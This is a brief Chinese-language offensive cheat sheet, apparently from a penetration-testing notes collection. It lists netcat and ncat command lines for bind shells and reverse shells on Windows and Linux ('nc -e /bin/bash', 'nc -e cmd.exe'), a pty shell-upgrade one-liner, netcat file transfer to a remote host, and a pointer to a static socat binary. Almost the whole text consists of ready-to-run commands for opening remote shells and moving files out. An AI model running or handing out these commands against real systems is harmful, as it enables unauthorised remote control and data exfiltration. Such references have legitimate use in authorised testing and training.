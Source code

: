 Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

## nc

- **bind shell**
    ```bash
    # 被控端
    nc -lvp 4444 -e cmd.exe     # win
    nc -lvp 4444 -e /bin/bash   # linux

    # 攻击端
    nc -nv 192.168.1.1 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **reverse shell**
    ```bash
    # 被控端
    nc -nv 192.168.1.1 4444 -e /bin/bash

    # 攻击端
    nc -lvp 4444

    python -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    ```

- **文件传输**
    ```bash
    # 收
    nc -nvlp 4444 > aaa
    ```
    ```bash
    # 发
    nc -nv 192.168.1.1 4444 </usr/share/aaa    # kali
    ```

### ncat

```bash
# 被控端
ncat lvp 4444 -e cmd.exe --allow 192.168.1.1 --ssl

# 攻击端
ncat -v 192.168.1.1 4444 --ssl
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
